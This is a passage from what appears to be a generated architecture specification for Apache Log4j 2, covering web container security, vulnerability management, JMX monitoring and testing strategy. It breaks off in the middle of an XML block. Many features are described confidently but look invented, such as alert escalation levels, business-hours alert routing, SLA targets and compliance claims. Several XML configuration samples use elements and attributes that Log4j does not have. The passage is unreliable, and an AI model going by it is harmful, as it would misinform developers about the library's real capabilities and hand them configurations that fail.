| **HTML** | Web log viewers | Character entity encoding | XSS prevention |
| **JSON** | JSON log formats | Unicode escaping | Injection prevention |
| **XML** | XML log formats | Character reference encoding | XML injection prevention |
| **CRLF** | Log file integrity | Line break normalization | Log injection prevention |

### 6.4.5 Web Security Integration

#### 6.4.5.1 Servlet Container Security

Apache Log4j 2 provides secure integration with web containers through comprehensive context isolation and thread safety mechanisms.

**Web Security Architecture**:

```mermaid
graph TB
    subgraph "Servlet Container"
        A[ServletContainerInitializer] --> B[Log4jWebSupport]
        B --> C[Log4jServletFilter]
        C --> D[ServletRequestThreadContext]
    end
    
    subgraph "Context Management"
        E[LoggerContextFactory] --> F[WebLoggerContextUtils]
        F --> G[Context Isolation]
        G --> H[ClassLoader Binding]
    end
    
    subgraph "Thread Safety"
        I[ThreadContext] --> J[Request Binding]
        J --> K[Context Cleanup]
        K --> L[Resource Management]
    end
    
    subgraph "Security Features"
        M[Session Management] --> N[Request Isolation]
        N --> O[Context Unbinding]
        O --> P[Memory Protection]
    end
    
    D --> E
    H --> I
    L --> M
    P --> Q[Secure Web Integration]
```

#### 6.4.5.2 Context Isolation Security

**Web Security Features**:
- **Per-Request Context**: Isolated logging context per HTTP request
- **Thread Safety**: Thread-safe context management in multi-threaded environments
- **Resource Cleanup**: Automatic context cleanup on request completion
- **Memory Protection**: Prevention of context leakage between requests

**Web Security Configuration**:
```xml
<Configuration>
    <WebContextManager>
        <Property name="isLookupEnabled">false</Property>
        <Property name="contextSelectorName">org.apache.logging.log4j.web.WebLookup</Property>
    </WebContextManager>
    <Filters>
        <ServletRequestFilter>
            <Property name="sessionId">true</Property>
            <Property name="remoteAddr">true</Property>
            <Property name="userAgent">false</Property>
        </ServletRequestFilter>
    </Filters>
</Configuration>
```

#### 6.4.5.3 Web Container Integration Flow

```mermaid
sequenceDiagram
    participant Container as Servlet Container
    participant Initializer as ServletContainerInitializer
    participant Filter as Log4jServletFilter
    participant Context as LoggerContext
    participant ThreadContext as ThreadContext
    
    Container->>Initializer: Initialize on Startup
    Initializer->>Filter: Register Servlet Filter
    Filter->>Context: Create Isolated Context
    Context->>ThreadContext: Bind Request Context
    
    Note over Container, ThreadContext: Per-request processing
    
    Container->>Filter: Process Request
    Filter->>ThreadContext: Set Request Attributes
    ThreadContext->>Context: Log with Context
    Context->>Filter: Complete Processing
    Filter->>ThreadContext: Clear Context
    ThreadContext->>Container: Return Response
```

### 6.4.6 Vulnerability Management

#### 6.4.6.1 Security Posture Management

Following the Log4Shell incident, Apache Log4j 2 maintains a comprehensive vulnerability management program with proactive security measures.

**Vulnerability Management Components**:
- **CVE Tracking**: Comprehensive vulnerability documentation in `src/site/markdown/security.md`
- **Security Scanning**: Integration with FindSecBugs and Dependabot
- **Rapid Response**: Established procedures for vulnerability disclosure and patching
- **Security Assessments**: Quarterly security reviews and penetration testing

#### 6.4.6.2 Security Compliance Framework

**Security Standards Compliance**:

| Standard | Implementation | Coverage | Validation |
|---|---|---|---|
| **OWASP** | Input validation, output encoding | All user inputs | Automated testing |
| **NIST** | Cryptographic standards | SSL/TLS implementation | Certificate validation |
| **Common Vulnerabilities** | CVE tracking system | All reported vulnerabilities | Public disclosure |
| **Enterprise Security** | Integration security | External system connections | Penetration testing |

#### 6.4.6.3 Security Monitoring

**Security Monitoring Capabilities**:
- **Dependency Scanning**: Automated vulnerability detection in dependencies
- **Code Analysis**: Static security analysis with FindSecBugs integration
- **Runtime Protection**: Java SecurityManager integration for restricted environments
- **Audit Logging**: Comprehensive logging of security-relevant events

### 6.4.7 Security Control Matrix

#### 6.4.7.1 Access Control Implementation

| Security Control | Implementation | Scope | Effectiveness |
|---|---|---|---|
| **Transport Encryption** | SSL/TLS 1.2+ | All network communications | High |
| **Authentication** | HTTP Basic Auth, Certificates | External integrations | Medium |
| **Data Protection** | Pattern filtering, masking | All log content | High |
| **Input Validation** | Regex validation, sanitization | All user inputs | High |
| **Output Encoding** | Multi-format escaping | All log outputs | High |
| **Context Isolation** | Thread-safe context management | Web applications | High |

#### 6.4.7.2 Security Architecture Compliance

**Compliance Requirements**:
- **Data Protection**: GDPR/CCPA compliance through sensitive data filtering
- **Industry Standards**: SOC 2, ISO 27001 compatibility
- **Regulatory Compliance**: HIPAA, PCI DSS support through encryption
- **Enterprise Security**: Integration with SIEM and security monitoring systems

#### 6.4.7.3 Security Configuration Template

```xml
<Configuration>
    <!-- SSL/TLS Configuration -->
    <SslConfiguration>
        <KeyStore location="client-keystore.jks" password="${env:KEYSTORE_PASSWORD}"/>
        <TrustStore location="ca-truststore.jks" password="${env:TRUSTSTORE_PASSWORD}"/>
        <Protocol>TLSv1.2</Protocol>
        <VerifyHostName>true</VerifyHostName>
    </SslConfiguration>
    
    <!-- Data Protection Filters -->
    <Filters>
        <RegexFilter regex="(\d{4}-\d{4}-\d{4}-\d{4})" replacement="[CARD_MASKED]"/>
        <RegexFilter regex="(\b[A-Za-z0-9._%+-]+@[A-Za-z0-9.-]+\.[A-Z|a-z]{2,}\b)" replacement="[EMAIL_MASKED]"/>
        <RegexFilter regex="(password|pwd|secret)=\S+" replacement="$1=[REDACTED]"/>
    </Filters>
    
    <!-- Secure Appender Configuration -->
    <HttpAppender name="SecureAppender" url="https://secure.example.com/logs">
        <Property name="Authorization">Basic ${env:HTTP_BASIC_AUTH}</Property>
        <Property name="Content-Type">application/json</Property>
        <SslConfiguration>
            <KeyStore location="client.p12" password="${file:keystore.pwd}"/>
            <TrustStore location="ca-certs.jks" password="${env:TRUSTSTORE_PWD}"/>
        </SslConfiguration>
        <JsonLayout complete="false" compact="true"/>
    </HttpAppender>
</Configuration>
```

### 6.4.8 Security Architecture Limitations

#### 6.4.8.1 Architectural Scope

**Security Features NOT Implemented**:
- **User Authentication**: No JAAS or LDAP user authentication system
- **Role-Based Access Control**: No RBAC for logging operations
- **Multi-Factor Authentication**: No MFA implementation
- **Session Management**: No user session token management
- **Authorization Policies**: No fine-grained authorization policies

#### 6.4.8.2 Security Architecture Focus

Apache Log4j 2's security architecture is **specifically designed for logging security** rather than application-level security. The framework provides:

- **Secure Log Transport**: Comprehensive SSL/TLS for network communications
- **Data Protection**: Advanced filtering and masking of sensitive information
- **Integration Security**: Secure authentication for external system connectivity
- **Vulnerability Management**: Proactive security posture and rapid response

### 6.4.9 References

#### Files Examined
- `log4j-core/src/main/java/org/apache/logging/log4j/core/net/ssl/SslConfiguration.java` - SSL/TLS configuration implementation
- `log4j-core/src/main/java/org/apache/logging/log4j/core/net/ssl/KeyStoreConfiguration.java` - KeyStore management
- `log4j-core/src/main/java/org/apache/logging/log4j/core/net/ssl/TrustStoreConfiguration.java` - TrustStore management
- `log4j-core/src/main/java/org/apache/logging/log4j/core/net/ssl/MemoryPasswordProvider.java` - Memory-based password provider
- `log4j-core/src/main/java/org/apache/logging/log4j/core/net/ssl/FilePasswordProvider.java` - File-based password provider
- `log4j-core/src/main/java/org/apache/logging/log4j/core/net/ssl/EnvironmentPasswordProvider.java` - Environment-based password provider
- `log4j-core/src/main/java/org/apache/logging/log4j/core/util/BasicAuthorizationProvider.java` - HTTP Basic Authentication implementation
- `log4j-core/src/main/java/org/apache/logging/log4j/core/util/AuthorizationProvider.java` - Authorization provider interface
- `log4j-core/src/main/java/org/apache/logging/log4j/core/filter/RegexFilter.java` - Pattern-based filtering
- `log4j-core/src/main/java/org/apache/logging/log4j/core/pattern/RegexReplacement.java` - Pattern replacement for data masking
- `log4j-core/src/main/java/org/apache/logging/log4j/core/pattern/EncodingPatternConverter.java` - Output encoding for security
- `log4j-web/src/main/java/org/apache/logging/log4j/web/Log4jWebSupport.java` - Web container security integration
- `log4j-web/src/main/java/org/apache/logging/log4j/web/Log4jServletFilter.java` - Servlet filter for context isolation
- `src/site/markdown/security.md` - Security vulnerability documentation

#### Folders Analyzed
- `log4j-core/src/main/java/org/apache/logging/log4j/core/net/ssl/` - Complete SSL/TLS implementation
- `log4j-web/src/main/java/org/apache/logging/log4j/web/` - Web container security components
- `log4j-web/` - Web application security integration

#### Technical Specification Cross-References
- **3.7 SECURITY CONSIDERATIONS** - Vulnerability management and security scanning
- **5.1 HIGH-LEVEL ARCHITECTURE** - System architecture and component integration
- **6.3 INTEGRATION ARCHITECTURE** - External system security integration patterns

## 6.5 MONITORING AND OBSERVABILITY

Apache Log4j 2 provides comprehensive monitoring and observability capabilities designed for enterprise-grade logging framework operation. The system implements a sophisticated monitoring architecture centered around JMX instrumentation, internal status logging, and performance metrics collection, enabling deep visibility into logging operations, configuration management, and system health.

### 6.5.1 MONITORING INFRASTRUCTURE

#### 6.5.1.1 JMX-Based Monitoring Architecture

Apache Log4j 2 implements a comprehensive JMX monitoring infrastructure that provides real-time visibility into framework operations through standardized MBean interfaces. The central JMX Server (`log4j-core/src/main/java/org/apache/logging/log4j/core/jmx/Server.java`) manages all MBean registration and lifecycle operations, supporting both synchronous and asynchronous monitoring scenarios.

```mermaid
graph TB
    subgraph "JMX Monitoring Architecture"
        A[JMX Server] --> B[MBean Registry]
        B --> C[StatusLoggerAdminMBean]
        B --> D[LoggerContextAdminMBean]
        B --> E[LoggerConfigAdminMBean]
        B --> F[AppenderAdminMBean]
        B --> G[AsyncAppenderAdminMBean]
        B --> H[RingBufferAdminMBean]
        
        C --> I[Internal Status Monitoring]
        D --> J[Context Lifecycle Management]
        E --> K[Logger Configuration Control]
        F --> L[Appender State Monitoring]
        G --> M[Queue Metrics Collection]
        H --> N[Ring Buffer Capacity Tracking]
        
        O[JMX Client] --> P[JConsole Integration]
        O --> Q[Custom Monitoring Tools]
        O --> R[JMX GUI Module]
        
        P --> A
        Q --> A
        R --> A
    end
    
    subgraph "Configuration Controls"
        S[Runtime Configuration] --> T[Dynamic Logger Levels]
        S --> U[Appender Management]
        S --> V[Filter Configuration]
        T --> D
        U --> F
        V --> E
    end
```

The JMX infrastructure can be completely disabled using the system property `-Dlog4j2.disable.jmx=true` for environments where JMX monitoring is not required or poses security concerns.

#### 6.5.1.2 Internal Status Logging System

The StatusLogger system (`log4j-api/src/main/java/org/apache/logging/log4j/status/StatusLogger.java`) provides comprehensive internal diagnostics independent of user logging configuration. This system maintains a bounded queue (default 200 entries) of all internal Log4j events, ensuring availability during troubleshooting scenarios.

| StatusLogger Component | Responsibility | Configuration | Monitoring Capability |
|---|---|---|---|
| **StatusLogger Core** | Internal event collection | `log4j2.StatusLogger.level` | Framework health monitoring |
| **StatusConsoleListener** | Console output routing | `log4j2.StatusLogger.destinations` | Real-time status visibility |
| **StatusFileListener** | File-based status logging | `log4j2.StatusLogger.file` | Persistent status tracking |
| **StatusDataListener** | Programmatic status access | Multiple listener registration | Custom monitoring integration |

#### 6.5.1.3 JMX GUI Monitoring Module

The specialized JMX GUI module (`log4j-jmx-gui`) provides comprehensive visual monitoring capabilities through both standalone applications and JConsole plugin integration. This Swing-based monitoring console offers:

- **Real-time Configuration Editing**: Dynamic modification of logger levels, appender configurations, and filter settings
- **Live Status Log Viewing**: Streaming display of internal StatusLogger events with filtering capabilities
- **Multi-Context Support**: Monitoring multiple LoggerContext instances simultaneously
- **Performance Metrics Display**: Visual representation of throughput, latency, and queue utilization metrics

#### 6.5.1.4 Performance Monitoring Infrastructure

The performance monitoring module (`log4j-perf`) implements comprehensive benchmarking capabilities using JMH (Java Microbenchmark Harness) framework. Key performance monitoring capabilities include:

```mermaid
graph TB
    subgraph "Performance Monitoring"
        A[JMH Benchmark Suite] --> B[Throughput Measurements]
        A --> C[Latency Analysis]
        A --> D[Queue Performance Tests]
        A --> E[Appender Benchmarks]
        
        B --> F[Events per Second]
        C --> G[Response Time Distribution]
        D --> H[Buffer Utilization]
        E --> I[Write Performance]
        
        J[Metrics Collection] --> K[JMX Exposure]
        K --> L[External Monitoring]
        L --> M[Performance Dashboards]
        
        N[Ring Buffer Metrics] --> O[Capacity Tracking]
        O --> P[Backpressure Monitoring]
        P --> Q[Queue Full Detection]
    end
```

### 6.5.2 OBSERVABILITY PATTERNS

#### 6.5.2.1 Health Check Implementation

Apache Log4j 2 implements comprehensive health monitoring through multiple layers of observability patterns designed to provide deep insights into system operation and performance characteristics.

| Health Check Category | Implementation | Monitoring Method | Success Criteria |
|---|---|---|---|
| **Framework Health** | StatusLogger event analysis | Internal status monitoring | No ERROR level events |
| **Configuration Health** | Configuration validation | Reload success tracking | Successful configuration parsing |
| **Appender Health** | Write operation monitoring | Error rate tracking | <1% failure rate |
| **Queue Health** | Buffer utilization monitoring | Capacity threshold alerts | <80% buffer utilization |

#### 6.5.2.2 Performance Metrics Collection

The framework provides extensive performance metrics collection capabilities that enable comprehensive monitoring of logging operations and system performance characteristics.

```mermaid
graph TB
    subgraph "Performance Metrics Architecture"
        A[Event Processing] --> B[Throughput Metrics]
        A --> C[Latency Metrics]
        A --> D[Queue Metrics]
        
        B --> E[Events per Second]
        B --> F[Bytes per Second]
        B --> G[Batch Processing Rate]
        
        C --> H[Average Response Time]
        C --> I[99th Percentile Latency]
        C --> J[Maximum Response Time]
        
        D --> K[Ring Buffer Utilization]
        D --> L[Queue Depth Tracking]
        D --> M[Backpressure Events]
        
        N[Appender Metrics] --> O[Write Success Rate]
        N --> P[Connection Pool Health]
        N --> Q[Retry Statistics]
        
        R[Memory Metrics] --> S[Garbage-Free Operation]
        R --> T[Object Pool Utilization]
        R --> U[Memory Allocation Patterns]
    end
```

#### 6.5.2.3 Business Metrics Integration

While Apache Log4j 2 primarily focuses on technical performance metrics, it provides comprehensive integration points for business-level monitoring through structured logging capabilities and contextual information propagation.

#### 6.5.2.4 SLA Monitoring Capabilities

The framework supports comprehensive SLA monitoring through performance tracking and threshold-based alerting mechanisms aligned with enterprise logging requirements.

| SLA Category | Target Metric | Monitoring Implementation | Alert Threshold |
|---|---|---|---|
| **Latency SLA** | Sub-millisecond response time | JMX latency tracking | >5x baseline |
| **Throughput SLA** | >1M events/second | Performance counters | <50% of baseline |
| **Availability SLA** | 99.9% uptime | Error rate monitoring | >0.1% failure rate |
| **Capacity SLA** | <80% buffer utilization | Queue depth monitoring | >80% sustained |

### 6.5.3 INCIDENT RESPONSE

#### 6.5.3.1 Alert Management and Routing

Apache Log4j 2 implements sophisticated alert management capabilities through its monitoring infrastructure, enabling automated incident detection and response workflows.

```mermaid
graph TB
    subgraph "Alert Management Flow"
        A[Monitoring Metrics] --> B[Threshold Evaluation]
        B --> C{Threshold Exceeded?}
        C -->|Yes| D[Alert Generation]
        C -->|No| E[Continue Monitoring]
        
        D --> F[Alert Classification]
        F --> G[Severity Assessment]
        G --> H[Routing Decision]
        
        H --> I[Critical Path]
        H --> J[Warning Path]
        H --> K[Informational Path]
        
        I --> L[Immediate Notification]
        J --> M[Batched Notification]
        K --> N[Log Aggregation]
        
        L --> O[Escalation Timer]
        O --> P{Response Received?}
        P -->|No| Q[Escalate to Level 2]
        P -->|Yes| R[Incident Resolution]
        
        Q --> S[Manager Notification]
        S --> T[Additional Resources]
        T --> R
    end
```

#### 6.5.3.2 Escalation Procedures

The monitoring system implements comprehensive escalation procedures designed to ensure rapid response to critical logging infrastructure issues.

| Escalation Level | Trigger Condition | Response Time | Notification Method |
|---|---|---|---|
| **Level 1 - Alert** | Threshold exceeded | <5 minutes | JMX notification |
| **Level 2 - Warning** | Sustained degradation | <15 minutes | StatusLogger events |
| **Level 3 - Critical** | System failure | <1 minute | Emergency fallback |
| **Level 4 - Emergency** | Complete outage | Immediate | Console output |

#### 6.5.3.3 Automated Recovery Procedures

The framework implements comprehensive automated recovery mechanisms that provide self-healing capabilities for common failure scenarios.

```mermaid
graph TB
    subgraph "Automated Recovery Flow"
        A[Failure Detection] --> B[Recovery Assessment]
        B --> C{Recovery Possible?}
        C -->|Yes| D[Recovery Strategy Selection]
        C -->|No| E[Fallback Mode]
        
        D --> F[Connection Retry]
        D --> G[Appender Failover]
        D --> H[Configuration Reload]
        
        F --> I[Exponential Backoff]
        I --> J{Max Retries?}
        J -->|No| K[Retry Attempt]
        J -->|Yes| G
        
        G --> L[Secondary Appender]
        L --> M{Failover Success?}
        M -->|Yes| N[Resume Operations]
        M -->|No| H
        
        H --> O[Reload Configuration]
        O --> P{Reload Success?}
        P -->|Yes| N
        P -->|No| E
        
        E --> Q[Console Fallback]
        Q --> R[Minimal Operation]
        R --> S[Manual Intervention Required]
    end
```

#### 6.5.3.4 Runbook Integration

The monitoring system provides structured runbook integration through comprehensive documentation and automated response procedures for common operational scenarios.

### 6.5.4 MONITORING DASHBOARDS

#### 6.5.4.1 JMX Dashboard Architecture

The JMX GUI module provides comprehensive dashboard capabilities designed for real-time monitoring and operational management of Log4j 2 deployments.

```mermaid
graph TB
    subgraph "Dashboard Architecture"
        A[JMX GUI Application] --> B[Connection Manager]
        B --> C[MBean Browser]
        B --> D[Metrics Display]
        B --> E[Configuration Editor]
        
        C --> F[Context Tree View]
        C --> G[Logger Hierarchy]
        C --> H[Appender Status]
        
        D --> I[Performance Graphs]
        D --> J[Queue Utilization]
        D --> K[Error Rate Charts]
        
        E --> L[Runtime Configuration]
        E --> M[Level Adjustments]
        E --> N[Appender Controls]
        
        O[Status Log Viewer] --> P[Real-time Events]
        O --> Q[Event Filtering]
        O --> R[Historical Analysis]
        
        S[Alert Panel] --> T[Active Alerts]
        S --> U[Alert History]
        S --> V[Acknowledgment]
    end
```

#### 6.5.4.2 Performance Monitoring Dashboard

The performance monitoring dashboard provides comprehensive visibility into logging system performance characteristics and operational metrics.

| Dashboard Component | Metrics Displayed | Update Frequency | Alert Integration |
|---|---|---|---|
| **Throughput Monitor** | Events/sec, Bytes/sec | 1 second | Threshold alerts |
| **Latency Display** | Average, P99, Maximum | 1 second | SLA monitoring |
| **Queue Status** | Utilization, Depth, Backpressure | 500ms | Capacity alerts |
| **Error Tracking** | Failure rate, Exception counts | 5 seconds | Error rate alerts |

#### 6.5.4.3 Configuration Management Dashboard

The configuration management dashboard enables real-time monitoring and modification of Log4j 2 configurations across distributed deployments.

### 6.5.5 EXTERNAL MONITORING INTEGRATION

#### 6.5.5.1 JMX Exporter Integration

While Apache Log4j 2 does not provide built-in integration with modern monitoring platforms like Prometheus or Grafana, the comprehensive JMX infrastructure enables seamless integration through standard JMX exporters.

#### 6.5.5.2 Custom Metrics Integration

The framework provides extensive customization capabilities for metrics collection and export through the StatusLogger system and custom StatusListener implementations.

```mermaid
graph TB
    subgraph "Custom Metrics Integration"
        A[StatusLogger Events] --> B[Custom StatusListener]
        B --> C[Metrics Extraction]
        C --> D[Format Conversion]
        
        D --> E[Prometheus Format]
        D --> F[Graphite Format]
        D --> G[Custom Format]
        
        E --> H[Prometheus Exporter]
        F --> I[Graphite Endpoint]
        G --> J[Custom Collector]
        
        K[JMX Metrics] --> L[JMX Exporter]
        L --> M[Metrics Aggregation]
        M --> N[External Monitoring]
        
        O[Log Event Metrics] --> P[Business Metrics]
        P --> Q[Application Monitoring]
        Q --> R[Dashboard Integration]
    end
```

### 6.5.6 ALERT CONFIGURATION

#### 6.5.6.1 Alert Threshold Matrix

The monitoring system supports comprehensive alert configuration through threshold-based monitoring and automated response mechanisms.

| Metric Category | Warning Threshold | Critical Threshold | Alert Actions |
|---|---|---|---|
| **Buffer Utilization** | >70% sustained | >90% sustained | Backpressure activation |
| **Processing Latency** | >5x baseline | >10x baseline | Performance degradation alert |
| **Error Rate** | >0.1% failures | >1% failures | Appender failover |
| **Queue Depth** | >80% capacity | >95% capacity | Queue full policy activation |

#### 6.5.6.2 Alert Suppression and Grouping

The framework implements sophisticated alert management capabilities that prevent alert storms and provide intelligent grouping of related monitoring events.

#### 6.5.6.3 Business Hours Configuration

Alert routing and escalation procedures support comprehensive business hours configuration enabling appropriate response timing for different operational scenarios.

### 6.5.7 OPERATIONAL PROCEDURES

#### 6.5.7.1 Monitoring Maintenance

Regular monitoring maintenance procedures ensure continued effectiveness of the observability infrastructure and optimal performance of monitoring systems.

#### 6.5.7.2 Capacity Planning

The monitoring system provides comprehensive capacity planning capabilities through historical metrics analysis and trend identification.

#### 6.5.7.3 Performance Optimization

Ongoing performance optimization procedures utilize monitoring data to identify optimization opportunities and ensure sustained high performance.

### 6.5.8 REFERENCES

**Files Examined:**
- `log4j-api/src/main/java/org/apache/logging/log4j/status/StatusLogger.java` - Internal status logging implementation and diagnostics
- `log4j-core/src/main/java/org/apache/logging/log4j/core/jmx/Server.java` - Central JMX management server and MBean lifecycle

**Folders Explored:**
- `log4j-jmx-gui/` - JMX GUI module for visual monitoring and configuration management
- `log4j-perf/` - Performance monitoring module with JMH benchmarks and metrics collection

**Technical Specification Sections:**
- Section 1.2 System Overview - Framework capabilities and performance targets
- Section 5.1 High-Level Architecture - Overall architectural approach and design patterns
- Section 5.4 Cross-Cutting Concerns - Monitoring approach and performance requirements
- Section 6.1 Core Services Architecture - Internal component architecture and scaling patterns

## 6.6 TESTING STRATEGY

Apache Log4j 2 implements a comprehensive multi-layered testing strategy designed to ensure framework reliability, performance, and compatibility across diverse deployment environments. The testing approach emphasizes automated validation, performance benchmarking, and continuous integration across multiple platforms, supporting the framework's mission to provide enterprise-grade logging capabilities with sub-millisecond latency and >1M events/second throughput.

### 6.6.1 TESTING APPROACH

#### 6.6.1.1 Unit Testing

#### Testing Frameworks and Tools

The project employs a dual-framework testing strategy leveraging both JUnit 4 and JUnit 5 capabilities to support gradual migration while maintaining comprehensive test coverage:

| Framework | Version | Purpose | Migration Status |
|---|---|---|---|
| **JUnit 4** | 4.13.2 | Legacy test support | Active migration to JUnit 5 |
| **JUnit 5 (Jupiter)** | 5.7.2 | Modern test framework | Primary framework for new tests |
| **JUnit Vintage** | 5.7.2 | JUnit 4 compatibility | Enables gradual migration |
| **Mockito** | 3.11.2 | Mocking framework | Unit test isolation |

**Supporting Test Libraries:**
- **Hamcrest** 1.3 - Matcher framework for enhanced assertions
- **AssertJ** 3.19.0 - Fluent assertion API for modern test patterns
- **Awaitility** 4.0.3 - Asynchronous testing support for concurrent operations

#### Test Organization Structure

The modular test organization mirrors the 35+ module structure, ensuring comprehensive coverage across all components:

```
log4j-{module}/
├── src/test/
│   ├── java/
│   │   └── org/apache/logging/log4j/
│   │       ├── {module-specific-tests}/
│   │       ├── categories/        # Test categorization
│   │       ├── junit/            # JUnit rules/extensions
│   │       └── test/             # Test utilities
│   └── resources/
│       ├── {test-configurations}.xml
│       ├── {test-configurations}.json
│       ├── {test-configurations}.yaml
│       └── {test-configurations}.properties
```

#### Mocking Strategy

The framework implements comprehensive mocking approaches for effective unit test isolation:

- **Interface-based mocking**: Primary approach using Mockito for clean API boundaries
- **Spy objects**: Partial mocking of concrete implementations for complex scenarios
- **In-memory implementations**: Custom test doubles for performance-critical components
- **Annotation-driven setup**: `@Mock`, `@Spy`, `@InjectMocks` for declarative test configuration

#### Code Coverage Requirements

Coverage targets are established to ensure comprehensive validation while maintaining practical development velocity:

| Module Type | Target Coverage | Minimum Coverage | Measurement Tool |
|---|---|---|---|
| **Core API Modules** | 90% | 85% | JaCoCo |
| **Core Implementation** | 80% | 70% | JaCoCo |
| **Integration Modules** | 60% | 50% | JaCoCo |
| **Performance Modules** | N/A | N/A | JMH Benchmarks |

#### Test Naming Conventions

Standardized naming ensures clear test purpose and maintainability:

```java
// Unit test naming pattern
public class ComponentNameTest {
    @Test
    public void methodName_StateUnderTest_ExpectedBehavior() { }
    
    @Test
    public void methodName_should_ExpectedBehavior_when_StateUnderTest() { }
}

// Integration test naming pattern
public class ComponentNameIT {
    @Test
    public void testScenarioDescription() { }
}
```

#### Test Data Management

Comprehensive test data management supports diverse testing scenarios:

- **Resource-based fixtures**: Configuration files in XML, JSON, YAML formats
- **Builder patterns**: Fluent APIs for complex test object construction
- **Parameterized tests**: JUnit 5 `@ParameterizedTest` for data-driven validation
- **Test categories**: `@Category` annotations for selective execution

#### 6.6.1.2 Integration Testing

#### Service Integration Test Approach

The dedicated `log4j-core-its` module implements comprehensive integration testing across all major framework components:

```xml
<!-- Integration test configuration -->
<plugin>
    <artifactId>maven-failsafe-plugin</artifactId>
    <configuration>
        <includes>
            <include>**/*.java</include>
        </includes>
        <excludes>
            <exclude>**/ForceNoDefClassFoundError.*</exclude>
        </excludes>
        <groups>
            org.apache.logging.log4j.categories.PerformanceTests,
            org.apache.logging.log4j.categories.Appenders$Jms
        </groups>
    </configuration>
</plugin>
```

#### API Testing Strategy

Integration testing validates the complete plugin architecture and configuration ecosystem:

- **Configuration validation**: Comprehensive XML/JSON/YAML configuration parsing
- **Plugin discovery**: Dynamic plugin loading and annotation-based registration
- **Cross-module integration**: Inter-module dependency and communication verification
- **Backward compatibility**: Log4j 1.x bridge and SLF4J integration validation

#### Database Integration Testing

Database appender testing leverages both embedded and mock database systems:

| Database Type | Test Framework | Test Scope | Mock Strategy |
|---|---|---|---|
| **H2** | In-memory mode | JDBC/JPA appenders | Real database instance |
| **HSQLDB** | In-memory mode | JDBC/JPA appenders | Real database instance |
| **MongoDB** | Embedded mock | NoSQL appenders | Mock server simulation |
| **Cassandra** | Mock driver | NoSQL appenders | Mock response patterns |

#### External Service Mocking

Comprehensive external service mocking ensures reliable integration testing:

- **SMTP Server**: Dumbster in-memory SMTP server for email appender validation
- **JMS Provider**: ActiveMQ embedded broker for message queue testing
- **HTTP Services**: WireMock framework for HTTP appender endpoint simulation
- **Flume**: In-memory event collectors for Flume appender integration

#### Test Environment Management

```mermaid
graph TB
    subgraph "Test Environment Architecture"
        A[Test Harness] --> B[Environment Setup]
        B --> C[Resource Allocation]
        C --> D[Port Assignment]
        D --> E[Service Initialization]
        
        E --> F[Database Setup]
        E --> G[Message Broker]
        E --> H[Network Services]
        
        F --> I[Schema Creation]
        G --> J[Queue Configuration]
        H --> K[Endpoint Registration]
        
        L[Test Execution] --> M[Service Validation]
        M --> N[Integration Tests]
        N --> O[Cleanup]
        
        O --> P[Resource Release]
        P --> Q[Port Deallocation]
        Q --> R[Service Shutdown]
    end
```

#### 6.6.1.3 End-to-End Testing

#### E2E Test Scenarios

Complete workflow validation ensures end-to-end functionality across diverse deployment scenarios:

1. **Configuration Loading**: Dynamic configuration discovery and initialization workflows
2. **Event Processing**: Complete logging event lifecycle from creation to output
3. **Appender Chain**: Multi-appender routing, filtering, and transformation scenarios
4. **Async Processing**: Asynchronous logger and LMAX Disruptor integration workflows
5. **Failover Scenarios**: Automatic failover, recovery, and resilience testing

#### Performance Testing Requirements

The dedicated `log4j-perf` module implements extensive JMH-based performance benchmarking:

| Benchmark Category | Test Focus | Success Criteria | Measurement Method |
|---|---|---|---|
| **Throughput** | Events/second capacity | >1M events/second | JMH throughput mode |
| **Latency** | Response time distribution | <100 microseconds | JMH sample time mode |
| **Memory** | Allocation patterns | Zero garbage operation | Allocation profiling |
| **Concurrency** | Thread scaling behavior | Linear thread scaling | Multi-threaded benchmarks |

#### Cross-Platform Testing Strategy

GitHub Actions matrix builds ensure comprehensive platform and JVM compatibility:

```yaml
strategy:
  matrix:
    os: [ubuntu-latest, windows-latest, macos-latest]
    java: [8, 11, 17]
```

This matrix validates operation across all supported operating systems and Java versions, ensuring consistent behavior in diverse deployment environments.

### 6.6.2 TEST AUTOMATION

#### 6.6.2.1 CI/CD Integration

#### GitHub Actions Workflow

```mermaid
graph TB
    subgraph "CI/CD Pipeline"
        A[Code Push] --> B[GitHub Actions Trigger]
        B --> C[Matrix Build Strategy]
        
        C --> D[Ubuntu Build]
        C --> E[Windows Build]
        C --> F[macOS Build]
        
        D --> G[Maven Toolchains]
        E --> G
        F --> G
        
        G --> H[Dependency Caching]
        H --> I[Compilation]
        I --> J[Unit Tests]
        J --> K[Integration Tests]
        
        K --> L[Test Reporting]
        L --> M[Surefire Reports]
        L --> N[Failsafe Reports]
        
        M --> O[GitHub Checks]
        N --> O
        
        O --> P[Artifact Upload]
        P --> Q[Test Archives]
    end
```

#### 6.6.2.2 Automated Test Triggers

Comprehensive automation ensures consistent quality across all development activities:

| Trigger Type | Activation Event | Test Scope | Typical Duration |
|---|---|---|---|
| **Push Events** | Every commit | Full test suite | 15-20 minutes |
| **Pull Requests** | PR creation/update | Affected modules | 10-15 minutes |
| **Scheduled** | Daily Dependabot | Dependency validation | 5 minutes |
| **Manual** | Workflow dispatch | Configurable scope | Variable |

#### 6.6.2.3 Parallel Test Execution

Maven configuration enables optimized parallel test execution:

```xml
<!-- Surefire parallel execution configuration -->
<configuration>
    <forkCount>1</forkCount>
    <reuseForks>false</reuseForks>
    <systemPropertyVariables>
        <java.awt.headless>true</java.awt.headless>
        <log4j2.junit.fileCleanerSleepPeriodMillis>1000</log4j2.junit.fileCleanerSleepPeriodMillis>
    </systemPropertyVariables>
</configuration>
```

#### 6.6.2.4 Test Reporting Requirements

Comprehensive test reporting provides visibility into test execution and quality metrics:

```yaml
- name: Publish Test Results
  uses: scacap/action-surefire-report@v1
  with:
    github_token: ${{ secrets.GITHUB_TOKEN }}
    check_name: Test Report (${{ matrix.os }})
    report_paths: '**/*-reports/TEST-*.xml'
```

#### 6.6.2.5 Failed Test Handling

Sophisticated failure handling ensures appropriate response to different failure scenarios:

| Failure Type | Handling Strategy | Retry Policy | Escalation Process |
|---|---|---|---|
| **Flaky Tests** | Automatic retry with jitter | 1 retry attempt | GitHub issue creation |
| **Consistent Failures** | Build failure marking | No retry | PR blocking |
| **Infrastructure Issues** | Environment validation | 2 retries with backoff | Operations alert |
| **Timeout Failures** | Extended time limits | 1 retry with 2x timeout | Performance review |

#### 6.6.2.6 Flaky Test Management

Specific handling for platform-specific timing issues:

```xml
<!-- Flaky test retry configuration -->
<configuration>
    <rerunFailingTestsCount>1</rerunFailingTestsCount>
    <systemPropertyVariables>
        <!-- Windows-specific timing adjustments -->
